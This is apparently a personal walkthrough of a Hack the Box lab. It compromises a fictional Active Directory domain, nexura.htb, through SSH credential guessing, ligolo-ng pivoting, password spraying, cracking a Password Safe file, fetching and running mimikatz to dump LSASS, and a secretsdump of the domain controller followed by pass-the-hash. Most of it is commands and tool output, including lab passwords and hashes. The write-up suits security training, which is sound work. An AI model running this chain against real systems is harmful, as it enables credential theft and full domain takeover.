

# Writeup for the End of the Hack the Box Password Attacks Module

I was given the following brief.
>`Betty Jayde` works at `Nexura LLC`. We know she uses the password `Texas123!@#` on multiple websites, and we believe she may reuse it at work. Infiltrate Nexura's network and gain command execution on the domain controller. The following hosts are in-scope for this assessment:

Now I ignored the given hosts below from the brief, to more closely simulate a real network.

| Host     | IP Address                                                  |
| -------- | ----------------------------------------------------------- |
| `DMZ01`  | `10.129.*.*` **(External)**, `172.16.119.13` **(Internal)** |
| `JUMP01` | `172.16.119.7`                                              |
| `FILE01` | `172.16.119.10`                                             |
| `DC01`   | `172.16.119.11`                                             |
I'll assign the external `10.129.*.*` address to `$targetIP`
## Information Gathering
I'll kick things off with a full port scan. 
```bash
sudo nmap -p- $targetIP -sS -vv -oN full_scan.txt
```
Which only shows one open port:
```bash
Discovered open port 22/tcp on 10.129.20.40
```
### Port 22 - SSH
I know the user's name - `Betty Jade` and her password `Texas123!@#` but I don't have a valid username (yet). I'll try and generate this using `Username Anarchy`.
```bash
└─$ ./username-anarchy betty jade > betty.txt
```
And then I'll use `hydra` to guess the username.
```bash
└─$ hydra -L betty.txt -p 'Texas123!@#' $targetIP ssh -t 1
[..SNIP..]
[22][ssh] host: 10.129.20.40   login: jbetty   password: Texas123!@#
```
Which works, so I've got a valid username and password.
### DMZ01
With the valid credentials, I'll access the server.
```bash
ssh jbetty@10.129.20.40
```
From there, I'll enumerate the server, where I find a `.bash_history` file in the user's `/home` directory. In it, there's a username, password and a reference to another server.
```bash
sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01
```
The host `file01` is not resolvable, but after checking `/etc/hosts` the only references to the domain are.
```bash
172.16.119.11 nexura.htb DC01 DC01.nexura.htb
```

### Scanning
As I see a reference to `file01` but DNS and `/etc/hosts` have nothing to find the IP, I need to setup a way to access the internal network to scan it.
To do this, I'll use `ligolo-ng`.
#### Setting up Ligolo

As `jbetty` I'll run the following to identify which route to use.
```bash
ip route show
```
Then on my machine, I'll transfer the *agent* to the server.
```bash
└─$ scp ligolo-ng_agent_0.9.2_linux_amd64.tar.gz jbetty@10.129.20.40:/home/jbetty/ligolo.tar.gz
```
And on my machine, I'll setup the proxy
```bash
└─$ sudo ./proxy -selfcert --selfcert-domain pwned -laddr [tun0 IP]:443

ligolo-ng » certificate_fingerprint
```
As `jbetty` I'll run
```bash
tar xzvf ligolo.tar.gz
/tmp/agent -accept-fingerprint [SHA_256_SELF_SIGNED_FINGERPRINT] -connect [tun0 IP]:443 &
```
And on my machine, I'll run
```bash
ligolo-ng » session
[Agent : jbetty@DMZ01] » interface_create --name DMZ01
[Agent : jbetty@DMZ01] » interface_add_route --name DMZ01 --route 172.16.119.0/24
[Agent : jbetty@DMZ01] » tunnel_start --tun DMZ01
```
And to validate the new route was created, I'll check (on my machine)
```bash
ip route show
[..SNIP..]
172.16.119.0/24 dev DMZ01
```
Perfect.
### Network Scanning
Now with a virtual interface, I can scan the entire network to figure out what's there.
```bash
└─$ nmap 172.16.119.0/24 --unprivileged -Pn
```
This results in the following scans.
```bash
[..SNIP..]

Nmap scan report for 172.16.119.7
Host is up (0.099s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

[..SNIP..]

Nmap scan report for 172.16.119.10
Host is up (0.10s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap scan report for 172.16.119.11
Host is up (0.092s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap scan report for 172.16.119.12
Host is up.
All 1000 scanned ports on 172.16.119.12 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)

Nmap scan report for 172.16.119.13
Host is up (0.13s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 172.16.119.14
Host is up.
All 1000 scanned ports on 172.16.119.14 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)

Nmap scan report for 172.16.119.15
Host is up.
All 1000 scanned ports on 172.16.119.15 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)
```

Now, there's a lot in this scan but I can see the following
```bash
172.16.119.7 - Windows server with RDP and WinRM Enabled
172.16.119.10 - Windows Server with SMB, RDP and WinRM
172.16.119.11 - Domain Controller
172.16.119.13 - SSH
```
I'll do a full service scan of the hosts to pull more data.
```bash
└─$ nmap -iL hosts.txt -sV -sC -oN specific_hosts.txt
```
Which returns:
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-29 11:20 EDT
Stats: 0:01:41 elapsed; 0 hosts completed (4 up), 4 undergoing Script Scan
NSE Timing: About 99.93% done; ETC: 11:22 (0:00:00 remaining)
Nmap scan report for 172.16.119.7
Host is up (0.0013s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-10-28T15:19:13+00:00; -1d00h03m07s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: NEXURA
|   NetBIOS_Domain_Name: NEXURA
|   NetBIOS_Computer_Name: JUMP01
|   DNS_Domain_Name: nexura.htb
|   DNS_Computer_Name: JUMP01.nexura.htb
|   DNS_Tree_Name: nexura.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-10-28T15:18:30+00:00
| ssl-cert: Subject: commonName=JUMP01.nexura.htb
| Not valid before: 2026-10-28T14:11:32
|_Not valid after:  2027-04-29T14:11:32
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1d00h03m07s, deviation: 0s, median: -1d00h03m07s

Nmap scan report for 172.16.119.10
Host is up (0.0012s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-10-28T15:19:13+00:00; -1d00h03m08s from scanner time.
| ssl-cert: Subject: commonName=FILE01.nexura.htb
| Not valid before: 2026-10-27T14:08:46
|_Not valid after:  2027-04-28T14:08:46
| rdp-ntlm-info: 
|   Target_Name: NEXURA
|   NetBIOS_Domain_Name: NEXURA
|   NetBIOS_Computer_Name: FILE01
|   DNS_Domain_Name: nexura.htb
|   DNS_Computer_Name: FILE01.nexura.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-10-28T15:18:30+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1d00h03m07s, deviation: 0s, median: -1d00h03m08s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-10-28T15:18:33
|_  start_date: N/A

Nmap scan report for 172.16.119.11
Host is up (0.037s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-28 15:18:20Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: nexura.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: nexura.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.nexura.htb
| Not valid before: 2026-10-27T14:08:46
|_Not valid after:  2027-04-28T14:08:46
| rdp-ntlm-info: 
|   Target_Name: NEXURA
|   NetBIOS_Domain_Name: NEXURA
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: nexura.htb
|   DNS_Computer_Name: DC01.nexura.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-10-28T15:18:30+00:00
|_ssl-date: 2026-10-28T15:19:13+00:00; -1d00h03m07s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-10-28T15:18:32
|_  start_date: N/A
|_clock-skew: mean: -1d00h03m07s, deviation: 0s, median: -1d00h03m07s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:8a:96:36 (VMware)
```
So now I know:
```bash
JUMP01.nexura.htb = 172.16.119.7
FILE01.nexura.htb = 172.16.119.10
DC01.nexura.htb = 172.16.119.11
DMZ01.nexura.htb = 172.16.119.13
```
I'll update `/etc/hosts` and check connections with each.
#### Password Spraying
With the credentials I found
```bash
hwilliam : dealer-screwed-gym1
```
I can test them across all services.
```bash
└─$ nxc winrm JUMP01.nexura.htb DC01.nexura.htb FILE01.nexura.htb --user hwilliam --password dealer-screwed-gym1
WINRM       172.16.119.7    5985   JUMP01           [*] Windows 10 / Server 2019 Build 17763 (name:JUMP01) (domain:nexura.htb)
WINRM       172.16.119.11   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:nexura.htb)
WINRM       172.16.119.10   5985   FILE01           [*] Windows 10 / Server 2019 Build 17763 (name:FILE01) (domain:nexura.htb)
WINRM       172.16.119.7    5985   JUMP01           [+] nexura.htb\hwilliam:dealer-screwed-gym1 (Pwn3d!)
WINRM       172.16.119.11   5985   DC01             [-] nexura.htb\hwilliam:dealer-screwed-gym1
WINRM       172.16.119.10   5985   FILE01           [-] nexura.htb\hwilliam:dealer-screwed-gym1
```
I can log into `JUMP01` as `hwilliam` using both `WinRM` and `RDP`.
I also checked `SMB` but nothing returned, strangely (I'll come back to this).
```bash
└─$ nxc smb FILE01.nexura.htb --user hwilliam --password dealer-screwed-gym1
SMB         172.16.119.10   445    FILE01           [*] Windows 10 / Server 2019 Build 17763 x64 (name:FILE01) (domain:nexura.htb) (signing:False) (SMBv1:None)
```
## Exploitation
### JUMP01
I'll use `evil-winrm` to access the server.
```bash
└─$ evil-winrm -i JUMP01.nexura.htb -u 'hwilliam' -p 'dealer-screwed-gym1'
```
And I can see references to a `Password Safe`
```bash
*Evil-WinRM* PS C:\Users\hwilliam> ls Desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/29/2025  10:13 AM           1611 Password Safe 3.lnk
```
It seems to be related to the `Password Safe` application, but there are no password safes on this server, after thorough enumeration.

I also find a `firefox` profile at `C:\Users\hwilliam\AppData\Roaming\Mozilla\Firefox\Profiles\o9vfv2tp.default-release` but it's missing the credentials file, so it's effectively useless.

I do check and see that the user is part of the `HR` domain group:
```bash
NEXURA\HR                              Group            S-1-5-21-1333759777-277832620-2286231135-1110 Mandatory group, Enabled by default, Enabled group
```
I pretty much hit a dead end over WinRM, there were no clear avenues for escalation and I didn't seem to have access to many files as the user, on the server.
This led me to recheck my `SMB` results again, as it was very strange that both `RDP` and `WinRM` worked.

Using `smbclient` I managed to list files on `FILE01`.
```bash
└─$ smbclient -L //FILE01.nexura.htb/ -U 'NEXURA/hwilliam%dealer-screwed-gym1'
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        HR              Disk      
        IPC$            IPC       Remote IPC
        IT              Disk      
        MANAGEMENT      Disk      
        PRIVATE         Disk      
        TRANSFER        Disk
```
So I clearly do have `SMB` access, but for some reason `netexec` fails?
##### Debugging `netexec`
I re-tested and produced the same result, 
```bash
└─$ nxc smb FILE01.nexura.htb --user hwilliam --password dealer-screwed-gym1 --shares -d 'nexura.htb'

```
It doesn't give me anything. But when changing to `nxc winrm` or `nxc rdp` it suddenly works. After some investigating, when the username is passed as `--user` it correctly passes it for the `winrm` and `rdp` modules, but incorrectly for the `smb` module. The `--username` or `-u` flags work fine though.
#### Exploring the shares
##### PRIVATE
The `PRIVATE` share looks the most interesting, so I'll start with that.
There's a list of users in the directory, which gives me another two users.
```bash
smb: \> ls
  .                                   D        0  Wed Oct 28 19:50:42 2026
  ..                                  D        0  Wed Oct 28 19:50:42 2026
  bdavid                              D        0  Tue Apr 29 12:00:16 2025
  hwilliam                            D        0  Tue Apr 29 12:16:58 2025
  stom                                D        0  Tue Apr 29 09:55:36 2025
```
Under `hwilliam` there's a file `Online passwords.xlsx` but it has nothing too useful.
##### HR
There's a very interesting `.psafe3` file under the `Archive/` directory.
```bash
  Employee-Passwords_OLD.psafe3       A     1080  Tue Apr 29 11:09:57 2025
```
I'll download it locally, and see if I can open it.
```bash
sudo apt-get install pwsafe
pwsafe ./Employee-Passwords_OLD.psafe3
```
However, it asks for a master password... Thankfully, there's a tool `psafe2john` which can be used to generate a hash for `john` in order to try and crack it.
```bash
└─$ pwsafe2john Employee-Passwords_OLD.psafe3 
Employee-Passwords_OLD:$pwsafe$*3*801e25992487ae60938723973f543abd7d1fab81f45da156194bc6e1976f8c59*262144*3e1d616a8f82a02514ed88cd37f1b6eab303d9a687c4d48fbe0c866775617978

└─$ pwsafe2john Employee-Passwords_OLD.psafe3 > forJ
```
Which I'll then try and crack using the `rockyou.txt` wordlist.
```bash
└─$ john forJ --wordlist=/usr/share/wordlists/rockyou.txt 
[..]
michaeljackson   (Employee-Passwords_OLD)
```
I can now open up the safe, which contains the following.
```text
bdavid : caramel-cigars-reply1
stom : fails-nibble-disturb4
hwilliam : warned-wobble-occur8
jbetty: xiao-nicer-wheels5
```
#### Password Spray 2
```bash
└─$ nxc smb FILE01.nexura.htb --username users --password passwords --no-bruteforce --continue-on-success
```
This shows that one set of credentials is valid.
```bash
SMB         172.16.119.10   445    FILE01           [+] nexura.htb\bdavid:caramel-cigars-reply1 
```
So now, I have access as `bdavid`.
#### Enumerating bdavid
`bdavid` has access to the following shares.
```bash
└─$ nxc smb FILE01.nexura.htb --username bdavid --password caramel-cigars-reply1 --shares
```
```bash
SMB         172.16.119.10   445    FILE01           Share           Permissions     Remark
SMB         172.16.119.10   445    FILE01           -----           -----------     ------
SMB         172.16.119.10   445    FILE01           ADMIN$                          Remote Admin
SMB         172.16.119.10   445    FILE01           C$                              Default share
SMB         172.16.119.10   445    FILE01           HR                              
SMB         172.16.119.10   445    FILE01           IPC$            READ            Remote IPC
SMB         172.16.119.10   445    FILE01           IT              READ,WRITE      
SMB         172.16.119.10   445    FILE01           MANAGEMENT                      
SMB         172.16.119.10   445    FILE01           PRIVATE         READ,WRITE      
SMB         172.16.119.10   445    FILE01           TRANSFER        READ,WRITE 
```
There's a list of `.pcap` files in the `IT` share, which I'll download.
```bash
smb: \> ls PCAPs/
  .                                   D        0  Tue Apr 29 11:57:11 2025
  ..                                  D        0  Tue Apr 29 11:57:11 2025
  2025-03-12_eapol-mka.pcap           A    11480  Tue Apr 29 11:55:38 2025
  2025-04-28_ipv4frags.pcap           A     2990  Tue Apr 29 11:55:20 2025
  2025-04-29_live.pcap                A 86779688  Tue Apr 29 11:56:06 2025
  2025_03-12_dhcp.pcap                A     1400  Tue Apr 29 11:55:30 2025
```
There may be some interesting credentials in the `.pcap` files, so I'll try and run `pcredz` on them. But it fails... repeatedly....
So I'll shift to manual analysis of the `.pcap` files.
##### Manual PCAP analysis
The patterns in `pcredz` are defined as follows
```bash
REGEX_HTTP_BASIC = re.compile(rb'Authorization: Basic ([A-Za-z0-9+/=]+)', re.IGNORECASE)
REGEX_NTLM_CHALLENGE = re.compile(rb'(?:WWW|Proxy)-Authenticate: NTLM ([A-Za-z0-9+/=]+)', re.IGNORECASE)
REGEX_NTLM_AUTH = re.compile(rb'(?:Authorization|Proxy-Authorization): NTLM ([A-Za-z0-9+/=]+)', re.IGNORECASE)
REGEX_PASSWORD_FIELDS = re.compile(
    r'(?:^|&)(password|pass|_password|passwd|session_password|sessionpassword|'
    r'login_password|loginpassword|form_pw|pw|userpassword|pwd|upassword|'
    r'passwort|passwrd|wppassword|j_password|admin_password|admin_pass|'
    r'secret|api_key|token|key|auth)\s*=\s*([^&"\s]+)',
    re.IGNORECASE
)
```
I can use `ngrep` to parse it based on these patterns.
```bash
└─$ ngrep -I 2025-04-29_live.pcap 'http' -q
└─$ ngrep -I 2025-04-29_live.pcap '(?:^|&)(password|pass|_password|passwd|session_password|sessionpassword|login_password|loginpassword|form_pw|pw|userpassword|pwd|upassword|passwort|passwrd|wppassword|j_password|admin_password|admin_pass|secret|api_key|token|key|auth)\s*=\s*([^&"\s]+)' -qi
```
Which returns
```bash
T 10.82.185.11:51072 -> 5.35.226.136:21 [AP] #13796
  PASS 98fDMjEHP6kV0D62WhK1..                                                                                                        

T 10.82.185.11:51072 -> 5.35.226.136:21 [AP] #13815
  PWD..                                                                                                                              

T 10.82.185.11:51072 -> 5.35.226.136:21 [AP] #13836
  PWD..                                                                                                                              

T 10.82.185.11:51078 -> 5.35.226.136:21 [AP] #13863
  PASS 98fDMjEHP6kV0D62WhK1..           
```
But it was not a valid password for any of the users identified.
After banging my head against the wall a few times, I decided to look at something else, so as not to live in the rabbit hole I dug for myself.
##### WinRM and RDP
I checked if `bdavid` had access to `winrm` and `rdp` and he did on `JUMP01`.
As a bonus, he's also an administrator.
```bash
*Evil-WinRM* PS C:\Users\bdavid\Documents> whoami /groups
[..SNIP..]
BUILTIN\Administrators               Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
```
So, now if I download `mimikatz` I might be able to find some interesting credentials cached on the device.
###### Ligolo-ng port forward.
I can setup a port forward on the listener by running the following on my machine
```bash
[Agent : jbetty@DMZ01] » listener_add --addr 0.0.0.0:8082 --to 0.0.0.0:8081
```
This means any traffic sent to port 8082 on `DMZ01` is routed to port `8081` on my machine.

I can setup an http server.
```bash
python3 -m http.server 8081
```
And then fetch `mimikatz` over `WinRM`
```bash
*Evil-WinRM* PS C:\Users\bdavid\Documents> curl http://172.16.119.13:8082/mimikatz.exe -OutFile mimikatz.exe
```
And then double check my permissions.
```bash
*Evil-WinRM* PS C:\Users\bdavid\Documents> ./mimikatz.exe "privilege::debug" "exit"


  .#####.   mimikatz 2.2.0 (x86) #19041 Sep 19 2022 17:43:26
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK
```

#### Dumping credentials
With `mimikatz` running, I can dump credentials.
```bash
mimikatz(commandline) # sekurlsa::logonpasswords
```
Which dumps lsass, which has an interesting entry for `stom`
```bash
        msv :
         [00000003] Primary
         * Username : stom
         * Domain   : NEXURA
         * NTLM     : 21ea958524cfd9a7791737f8d2f764fa
         * SHA1     : f2fc2263e4d7cff0fbb19ef485891774f0ad6031
         * DPAPI    : 06e85cb199e902a0145ff04963e7dd72
        tspkg :
        wdigest :
         * Username : stom
         * Domain   : NEXURA
         * Password : (null)
        kerberos :
         * Username : stom
         * Domain   : NEXURA.HTB
         * Password : calves-warp-learning1
        ssp :
        credman :
```
And these credentials are valid:
```bash
└─$ nxc smb DC01.nexura.htb --username stom --password 'calves-warp-learning1' --continue-on-success
SMB         172.16.119.11   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:nexura.htb) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                   
SMB         172.16.119.11   445    DC01             [+] nexura.htb\stom:calves-warp-learning1 (Pwn3d!)
```
`stom` appears to be a local admin on the `DC`, so is likely a `Domain Admin` of the entire domain. He has access to the `ADMIN$` and `C$` shares.
```bash
└─$ nxc smb DC01.nexura.htb --username stom --password 'calves-warp-learning1' --shares                       
```
This means using his account I can dump `NTDS` and extract all of the hashes using `impacket-secretsdump`.
```bash
└─$ impacket-secretsdump NEXURA.htb/stom:calves-warp-learning1@DC01.nexura.htb     
```
Which results in
```bash
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x76b4393403c75a0cb93633c17abf2778
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:16a61f3c25e281442aa46965367829ad:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[..]
Administrator:500:aad3b435b51404eeaad3b435b51404ee:36e09e1e6ade94d63fbcab5e5b8d6d23:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:11dee8f685882eb4f78a450291569bd0:::
nexura.htb\bdavid:1105:aad3b435b51404eeaad3b435b51404ee:82c5ef7f2612567964070d04fe46a5d0:::
nexura.htb\stom:1106:aad3b435b51404eeaad3b435b51404ee:21ea958524cfd9a7791737f8d2f764fa:::
nexura.htb\hwilliam:1107:aad3b435b51404eeaad3b435b51404ee:f3ac86b290a51fb59a1a66f50b658e1f:::
DC01$:1002:aad3b435b51404eeaad3b435b51404ee:6677a2979fb5fd2239fabe3ff70458bf:::
FILE01$:1108:aad3b435b51404eeaad3b435b51404ee:2314ae2f9297591c8b4b13516bb528f0:::
JUMP01$:1109:aad3b435b51404eeaad3b435b51404ee:df3b171518f4fb9150a95834314c986b:::
```
And I can login as the `Administrator`
```bash
└─$ evil-winrm -i DC01.nexura.htb -u 'Administrator' -H '36e09e1e6ade94d63fbcab5e5b8d6d23'

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
nexura\administrator
```
